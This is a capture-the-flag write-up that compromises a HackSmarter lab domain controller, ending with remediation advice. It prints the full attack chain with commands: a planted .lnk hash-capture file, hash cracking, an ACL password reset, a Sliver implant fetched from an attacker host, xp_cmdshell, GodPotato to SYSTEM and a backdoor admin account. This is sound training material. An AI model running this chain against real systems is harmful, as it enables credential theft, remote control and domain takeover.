


`[ACTIVE DIRECTORY]` `[NTLMv2 CAPTURE]` `[GENERICALL]` `[MSSQL]` `[SOCKS PROXY]` `[SEIMPERSONATEPRIVILEGE]` `[GODPOTATO]`


**Machine Write-Up**

---

**Platform:** HackSmarter   
**Difficulty:** Medium   
**Operating System:** Windows Server 2022 Build 20348

---

## Objective / Scope

**Objective:** You're a penetration tester on the Hack Smarter Red Team. Your mission is to infiltrate and seize control of the client's entire Active Directory environment. This isn't just a test; it's a full-scale assault to expose and exploit every vulnerability.

**Initial Access:** For this engagement, you've been granted direct network access to the client's network. The door is open, but you're starting with zero credentials. From here, every move counts.

**Execution:** Your objective is simple but demanding: enumerate, exploit, and own. Your ultimate goal is not just to get in, but to achieve a full compromise, elevating your privileges until you hold the keys to the entire domain.

---

<details>
<summary>Summary</summary>

Starting from zero credentials, nmap identifies a Windows Server 2022 domain controller (`DC01.hack.smarter`) exposing an unauthenticated writable SMB share. `ntlm_theft` plants a malicious `.lnk` file in the share; when the target user browses it, Responder captures a Net-NTLMv2 challenge hash for `bob.ross`, which Hashcat cracks offline. Authenticated as `bob.ross`, BloodHound reveals a `GenericAll` ACL edge over `alice.wonderland`, whose account is a member of Remote Management Users. We force-change Alice's password via `bloodyAD` and authenticate via Evil-WinRM. Post-exploitation enumeration reveals an MSSQL instance (SQL Express) listening exclusively on `127.0.0.1:1433`. A Sliver mTLS implant establishes a SOCKS5 tunnel back to the attacker, allowing Impacket `mssqlclient` to reach the internal port via Proxychains. The `NT Service\MSSQL$SQLEXPRESS` account has `SeImpersonatePrivilege`. A second Sliver session is spawned under the MSSQL service context by executing the implant through `xp_cmdshell`, then GodPotato is run from that session to obtain `NT AUTHORITY\SYSTEM` execution. A new local administrator account is created via `net user`, completing full domain compromise.

</details>

---

## Recon

### Nmap

```bash
nmap -sC -sV -Pn <TARGET_IP>
```

```
# Console Output
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-27 17:44:25Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hack.smarter, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hack.smarter, Site: Default-First-Site-Name)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: HACK
|   NetBIOS_Domain_Name: HACK
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: hack.smarter
|   DNS_Computer_Name: DC01.hack.smarter
|   Product_Version: 10.0.20348
```

The RDP NTLM banner identifies the domain as `hack.smarter`, the machine as `DC01`, and the OS as Windows Server 2022 (build `10.0.20348`). Add `DC01.hack.smarter` to `/etc/hosts` before proceeding.

### SMB — Null Session Enumeration

```bash
nxc smb hack.smarter -u "" -p "" --shares
```

```
# Console Output
SMB  <DC_IP>  445  DC01  [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hack.smarter) (signing:True) (SMBv1:None) (Null Auth:True)
SMB  <DC_IP>  445  DC01  [+] hack.smarter\:
SMB  <DC_IP>  445  DC01  Share           Permissions     Remark
SMB  <DC_IP>  445  DC01  -----           -----------     ------
SMB  <DC_IP>  445  DC01  ADMIN$                          Remote Admin
SMB  <DC_IP>  445  DC01  C$                              Default share
SMB  <DC_IP>  445  DC01  IPC$                            Remote IPC
SMB  <DC_IP>  445  DC01  NETLOGON                        Logon server share
SMB  <DC_IP>  445  DC01  Share           READ,WRITE
SMB  <DC_IP>  445  DC01  SYSVOL                          Logon server share
```

An unauthenticated null session reveals `READ,WRITE` access on the `Share` share — a direct path to NTLMv2 hash capture via a file plant.

> **Note on IPs:** `nxc` resolves `hack.smarter` via DNS to an internal lab IP visible in raw tool output. Direct connections (`smbclient`, `bloodyAD`, Evil-WinRM) use the VPN-assigned DC IP. All instances are genericized to `<DC_IP>` throughout — both refer to `DC01`.

---

## Foothold

### NTLMv2 Hash Capture — `bob.ross`

With write access to the share, we plant a malicious `.lnk` file using `ntlm_theft`. When a domain user browses the share in Explorer, Windows automatically issues an SMB authentication request to the path embedded in the `.lnk` — leaking their NTLMv2 challenge hash to Responder.

**Step 1 — Generate the malicious files:**

```bash
ntlm_theft.py --verbose --generate modern --server <ATTACKER_IP> --filename "meetingXYZ"
```

```
# Console Output
Created: meetingXYZ/meetingXYZ-(url).url (BROWSE TO FOLDER)
Created: meetingXYZ/meetingXYZ-(icon).url (BROWSE TO FOLDER)
Created: meetingXYZ/meetingXYZ.lnk (BROWSE TO FOLDER)
Created: meetingXYZ/meetingXYZ.rtf (OPEN)
...
Generation Complete.
```

The `.lnk` is the most reliable trigger for a "browse to folder" capture on modern Windows.

**Step 2 — Start Responder:**

```bash
sudo responder -I tun0 -wv
```

**Step 3 — Upload the `.lnk` to the writable share:**

```bash
smbclient //<DC_IP>/Share -N -c 'put meetingXYZ/meetingXYZ.lnk meetingXYZ.lnk'
```

```
# Console Output
putting file meetingXYZ/meetingXYZ.lnk as \meetingXYZ.lnk (6.3 kB/s) (average 6.3 kB/s)
```

Verify the file is in place:

```bash
smbclient //<DC_IP>/Share -N -c 'recurse; ls'
```

```
# Console Output
  .                                   D        0  Wed May 27 14:03:08 2026
  ..                                DHS        0  Fri Sep  5 23:46:21 2025
  meetingXYZ.lnk                      A     2164  Wed May 27 14:03:08 2026
```

**Step 4 — Capture and crack the hash:**

When the target user browses the share, Responder captures their Net-NTLMv2 hash:

```
# Console Output
[SMB] NTLMv2-SSP Client   : <DC_IP>
[SMB] NTLMv2-SSP Username : HACK\bob.ross
[SMB] NTLMv2-SSP Hash     : bob.ross::HACK:39ddc9c0c7c292c3:36A12CB6EB19F41DF56B28C45A08294E:010100000000000000A17819E2EDDC0109F506808EB6CD6C00000000020008005600470056004D0001001E00570049004E002D0051003700370031004B0031004A00580042003400380004003400570049004E002D0051003700370031004B0031004A0058004200340038002E005600470056004D002E004C004F00430041004C00030014005600470056004D002E004C004F00430041004C00050014005600470056004D002E004C004F00430041004C000700080000A17819E2EDDC0106000400020000000800300030000000000000000100000000200000EBBCB329264FAD9BF35160B831BA7748EAEFF895E441756F26C0F28A59D338B00A001000000000000000000000000000000000000900240063006900660073002F00310030002E003200300030002E00350039002E003200300035000000000000000000
```

The hash format is `username::domain:challenge:response:blob`. Save it to a file and crack offline with Hashcat mode `5600` (Net-NTLMv2):

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

```
# Console Output
bob.ross : <PASSWORD REDACTED>
```

---

## Lateral Movement

### Enumerating as `bob.ross`

Validate credentials and enumerate domain users via RID brute-force:

```bash
nxc smb hack.smarter -u 'bob.ross' -p '<PASSWORD REDACTED>' --rid-brute
```

```
# Console Output
SMB  <DC_IP>  445  DC01  [+] hack.smarter\bob.ross:<PASSWORD REDACTED>
...
SMB  <DC_IP>  445  DC01  1103: HACK\bob.ross (SidTypeUser)
SMB  <DC_IP>  445  DC01  1104: HACK\alice.wonderland (SidTypeUser)
SMB  <DC_IP>  445  DC01  1105: HACK\tyler.ramsey (SidTypeUser)
```

Three domain users: `bob.ross` (owned), `alice.wonderland`, `tyler.ramsey`. We also check SYSVOL for Group Policy Preference XML files with embedded `cpassword` fields — a classic misconfiguration where an AES key published by Microsoft in 2012 makes the encryption trivially reversible:

```bash
nxc smb hack.smarter -u 'bob.ross' -p '<PASSWORD REDACTED>' -M gpp_password
```

```
# Console Output
GPP_PASS... <DC_IP>  445  DC01  [+] Found SYSVOL share
GPP_PASS... <DC_IP>  445  DC01  [*] Searching for potential XML files containing passwords
```

No GPP credentials found — moving to BloodHound.

### BloodHound — ACL Enumeration

Collect AD data using the `nxc` BloodHound collector:

```bash
nxc ldap dc01.hack.smarter -u 'bob.ross' -p '<PASSWORD REDACTED>' --bloodhound --collection All --dns-server <DC_IP>
```

```
# Console Output
LDAP  <DC_IP>  389  DC01  [+] hack.smarter\bob.ross:<PASSWORD REDACTED>
LDAP  <DC_IP>  389  DC01  Bloodhound data collection completed in 0M 24S
LDAP  <DC_IP>  389  DC01  Compressing output into /home/jhaxx/.nxc/logs/DC01_..._bloodhound.zip
```

Ingesting the zip into BloodHound reveals that `bob.ross` holds **GenericAll** over `alice.wonderland`. GenericAll is the broadest ACE in Active Directory — it encompasses every right on the object, including `WriteProperty`, `WriteDacl`, `WriteOwner`, and critically `ForceChangePassword`. An attacker holding GenericAll can reset the target account's password without knowing the current one, no domain admin rights required.



A closer look at `alice.wonderland` shows she is a member of **Remote Management Users**, granting WinRM access — the pivot into an interactive Windows shell.



### Force-Change Password → Evil-WinRM

```bash
bloodyAD -u 'bob.ross' -p '<PASSWORD REDACTED>' -d hack.smarter -H <DC_IP> set password alice.wonderland 'NewPass123!'
```

```
# Console Output
[+] Password changed successfully!
```

```bash
evil-winrm -i <DC_IP> -u 'alice.wonderland' -p 'NewPass123!'
```

```
# Console Output
Evil-WinRM shell v3.9
*Evil-WinRM* PS C:\Users\alice.wonderland\Documents> whoami
hack\alice.wonderland
```

The user flag is on the desktop:

```
# Console Output
*Evil-WinRM* PS C:\users\alice.wonderland\desktop> dir

    Directory: C:\users\alice.wonderland\desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/30/2026   6:06 AM       35513344 MAGNIFICENT_POLISH.exe
-a----          9/3/2025   2:07 PM             54 user.txt
```

Checking `alice.wonderland`'s privileges reveals only generic, non-exploitable rights (`SeMachineAccountPrivilege`, `SeChangeNotifyPrivilege`, `SeIncreaseWorkingSetPrivilege`). We enumerate the filesystem for further leads:

```
# Console Output
*Evil-WinRM* PS C:\> dir

    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---          9/5/2025   8:34 PM                Program Files
d-----          9/3/2025   2:06 PM                Program Files (x86)
d-----         5/29/2026  11:52 AM                Share
d-----          9/3/2025   2:06 PM                SQL2019
d-----          9/3/2025   2:01 PM                Temp
d-r---          9/3/2025   2:54 PM                Users
d-----          9/5/2025   8:46 PM                Windows
```

`SQL2019` is present — MSSQL is installed. It wasn't exposed externally; checking local listeners:

```bash
netstat -ano | findstr LISTENING
```

```
# Console Output
TCP    127.0.0.1:1433    0.0.0.0:0    LISTENING    4208
```

MSSQL (port 1433) is listening on loopback only. To reach it from our Kali machine we need to pivot through the compromised host.

---

## Privilege Escalation

### Pivoting — SOCKS5 via Sliver C2

We set up a Sliver mTLS implant to create a SOCKS5 tunnel through the compromised host, routing our tool traffic via Proxychains.

**Step 1 — Generate an mTLS implant:**

```bash
sliver > generate --mtls <ATTACKER_IP>:443 --os windows --save /home/jhaxx/CTFs/HackSmarter/ShareThePain/
```

```
# Console Output
[*] Generating new windows/amd64 implant binary
[*] Build completed in 1m20s
[*] Implant saved to /home/jhaxx/CTFs/HackSmarter/ShareThePain/MAGNIFICENT_POLISH.exe
```

**Step 2 — Transfer implant and start listener:**

```bash
python -m http.server 80
```

```
# Console Output (Evil-WinRM)
*Evil-WinRM* PS C:\users\alice.wonderland\desktop> wget http://<ATTACKER_IP>/MAGNIFICENT_POLISH.exe -OutFile MAGNIFICENT_POLISH.exe
```

```bash
sliver > mtls --lhost <ATTACKER_IP> --lport 443
```

**Step 3 — Execute implant and start SOCKS5 proxy:**

```
# Console Output (Evil-WinRM)
*Evil-WinRM* PS C:\users\alice.wonderland\desktop> ./MAGNIFICENT_POLISH.exe
```

```
# Console Output (Sliver)
[*] Session 92dda2de MAGNIFICENT_POLISH - <DC_IP>:50191 (DC01) - windows/amd64 - HACK\alice.wonderland
```

```bash
sliver (MAGNIFICENT_POLISH) > socks5 start
```

```
# Console Output
[*] Started SOCKS5 127.0.0.1 1081
```

Configure `/etc/proxychains4.conf` to route through the tunnel:

```
socks5 127.0.0.1 1081
```

### MSSQL — xp_cmdshell Code Execution

```bash
proxychains -q mssqlclient.py hack.smarter/'alice.wonderland':'NewPass123!'@127.0.0.1 -windows-auth
```

```
# Console Output
[*] Encryption required, switching to TLS
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
SQL (HACK\alice.wonderland  dbo@master)>
```

```sql
enable_xp_cmdshell
```

```sql
EXEC xp_cmdshell 'whoami'
```

```
# Console Output
nt service\mssql$sqlexpress
```

The MSSQL service runs as `NT Service\MSSQL$SQLEXPRESS`. Checking its privileges:

```sql
EXEC xp_cmdshell 'whoami /priv'
```

```
# Console Output
Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

`SeImpersonatePrivilege` is enabled — a classic potato exploit prerequisite. Service accounts that accept incoming client connections (IIS, MSSQL, network services) routinely hold this privilege so they can impersonate the calling user's security context. GodPotato exploits a flaw in how `rpcss` handles OXID resolution in DCOM, tricking it into authenticating to an attacker-controlled named pipe and surrendering a `SYSTEM`-level token that the service account can then impersonate.

### Spawning a Sliver Session as `MSSQL$SQLEXPRESS`

`SeImpersonatePrivilege` belongs to `NT Service\MSSQL$SQLEXPRESS`, not to `alice.wonderland`. Attempting GodPotato from the Evil-WinRM session will fail. We must execute GodPotato from within the MSSQL service account context — achieved by running the Sliver implant through `xp_cmdshell` to get a second session under that identity.

Copy the implant to `C:\Temp\` (accessible by the service account) via the `alice.wonderland` Evil-WinRM session:

```sql
EXEC xp_cmdshell 'copy C:\Users\alice.wonderland\desktop\MAGNIFICENT_POLISH.exe C:\Temp\MAGNIFICENT_POLISH.exe'
EXEC xp_cmdshell 'C:\Temp\MAGNIFICENT_POLISH.exe'
```

A new session appears in Sliver:

```
# Console Output
[*] Session 569971ec MAGNIFICENT_POLISH - <DC_IP>:49853 (DC01) - windows/amd64

sliver > sessions -i 569971ec
sliver (MAGNIFICENT_POLISH) > whoami

Logon ID: NT Service\MSSQL$SQLEXPRESS
[*] Current Token ID: NT Service\MSSQL$SQLEXPRESS
```

Drop into a shell under this identity:

```bash
sliver (MAGNIFICENT_POLISH) > shell
```

```
# Console Output
PS C:\Windows\system32> whoami
nt service\mssql$sqlexpress
PS C:\Windows\system32> cd C:\Temp
```

### GodPotato → SYSTEM → New Administrator

Transfer GodPotato to `C:\Temp\` via the `alice.wonderland` Evil-WinRM session:

```bash
wget http://<ATTACKER_IP>/GodPotato-NET4.exe -OutFile C:\Temp\godpotato.exe
```

Verify SYSTEM execution from the MSSQL service account shell:

```bash
./godpotato.exe -cmd "cmd /c whoami"
```

```
# Console Output
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 920 Token:0x856  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 6172
nt authority\system
```

Create a new local administrator in a single command:

```bash
./godpotato.exe -cmd "cmd /c net user hacksmarter Hack12345 /add && net localgroup administrators hacksmarter /add"
```

```
# Console Output
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 5620
The command completed successfully.
The command completed successfully.
```

Verify membership from the `alice.wonderland` Evil-WinRM session:

```
# Console Output
*Evil-WinRM* PS C:\> net user hacksmarter

Local Group Memberships      *Administrators
Global Group memberships     *Domain Users
```

Connect with the new account and retrieve the root flag:

```bash
evil-winrm -u hacksmarter -p Hack12345 -i dc01.hack.smarter
```

```bash
type "C:\Users\Administrator\Desktop\root.txt"
```


---

## Remediation

- **Unauthenticated writable SMB share:** Remove anonymous/null-session write access from the `Share` share immediately. Shares accessible without credentials are a trivial hash-capture vector. Require authenticated access for all shares and audit permissions regularly.
- **NTLMv2 hash capture via .lnk plant:** Enforce SMB signing across the domain (already enabled on DC01, but must be enforced on all workstations). Block outbound SMB (port 445) at the perimeter firewall to prevent credential leakage to external Responder listeners. Consider disabling NTLM authentication where Kerberos is available.
- **GenericAll ACL misconfiguration:** Audit AD ACLs for overly permissive ACEs on user objects. `GenericAll` granted to non-admin accounts is effectively a password reset backdoor. Use BloodHound regularly to identify ACL attack paths. Remove the `bob.ross → alice.wonderland` GenericAll edge and restrict `ForceChangePassword` rights to delegated admin accounts only.
- **MSSQL running as a high-privilege service account with SeImpersonatePrivilege:** This is the default for SQL Express installations and is difficult to fully mitigate without breaking functionality. As a defence-in-depth measure: restrict who can enable `xp_cmdshell` (it should be off by default and require explicit SA-level authorization); limit MSSQL network reachability to authorised hosts only; and monitor for `xp_cmdshell` execution via SQL Server Audit logs.
- **SeImpersonatePrivilege → Potato escalation:** There is no patch for GodPotato that does not require OS or SQL service changes. Mitigations include: restricting service account privileges to the minimum necessary, deploying Credential Guard, and alerting on anomalous named-pipe creation or DCOM authentication patterns via an EDR.

## References

1. [GodPotato — DCOM OXID privilege escalation (BeichenDream)](https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe)
